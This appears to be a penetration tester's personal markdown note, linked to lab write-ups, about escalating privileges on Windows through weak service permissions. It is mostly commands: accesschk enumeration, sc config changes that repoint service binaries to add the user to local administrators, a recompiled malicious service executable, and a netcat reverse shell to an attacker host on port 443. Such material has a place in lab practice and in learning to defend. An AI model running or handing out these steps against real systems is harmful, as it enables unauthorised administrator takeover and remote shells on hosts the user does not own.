 Guide:
```
https://www.fuzzysecurity.com/tutorials/16.html
```

```
https://grimmie.net/cyberseclabs-hijack-write-up/#Drupalgeddon
```

Download old version:
```
https://xor.cat/2017/09/05/sysinternals-accesschk-accepteula
```

[[4._File Transfers#Certutil]]

#### Weak Service Permissions
Check Program Files directory recursively for writable files:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

```command prompt - target
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"
```

IF YOU HAVE A USERNAME:
```
.\accesschk.exe -uwcqv %username% * -accepteula
```

![[Pasted image 20220609125204.png | 500]]

NOTE:
>The SERVICE_ALL_ACCESS permission allows any user on the system to take control of and modify the parameters of the service.

```
sc qc OpenSSHd
```

![[Pasted image 20220609125330.png | 500]]

Now we have a few options to exploit:

#### 1. Add current user to local administrators (Method 1):
```
sc config "OpenSSHd" binPath= "net localgroup administrators %username% /add"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[12._ACCESSCHK#Restart the service]]

OR [[___.Misc Commands#Restart host]]

Check your user was added to local admins:

```
net localgroup administrators
```

#### 2. Add current user to local administrators (Method 2):

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Send to target.

[[12._ACCESSCHK#Restart the service]]
Check your user was added to local admins:

```command prompt - windows
net localgroup administrators
```

#### 3. nc reverse shell:

>SERVICE_START_NAME must say NT AUTHORITY\LocalService

![[Pasted image 20221115143853.png]]

```command prompt - target
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\nc.exe -nv $KALI 443 -e C:\WINDOWS\System32\cmd.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### 4. reverse.exe

[[1._Reverse Shells (WIN)#MSFVenom]]
```
sc config SSDPSRV binpath= "C:\WINDOWS\Temp\Tools\reverse.exe"
```

```
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

[[rlwrap]]

[[12._ACCESSCHK#Restart the service]]

#### PowerShell
Same thing in PowerShell:
```powershell - target
Get-ChildItem "C:\Program Files" -R
ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

![[2._Automated Tools#PowerUp ps1]]

![[Pasted image 20220207151712.png]]

#### Restart the service
IF YOU RUN INTO AN ERROR (SEE PIC)!  FOLLOW: https://sohvaxus.github.io/content/winxp-sp1-privesc.html

![[Pasted image 20220911155715.png | 1000]]

Set SSDPSRV to AUTOMATIC
NOTE: There is a space between `=` and `auto`. This is important, else the command will fail.
`sc config SSDPSRV start= auto`

Double check if it's set to AUTOMATIC (or AUTO_START)
`sc qc SSDPSRV`

```command prompt - windows
sc stop SSDPSRV
```

```command prompt - windows
sc start SSDPSRV
```

OR

```command prompt - windows
net stop SSDPSRV
```

```command prompt - windows
net start SSDPSRV
```


OR [[___.Misc Commands#Restart host]]
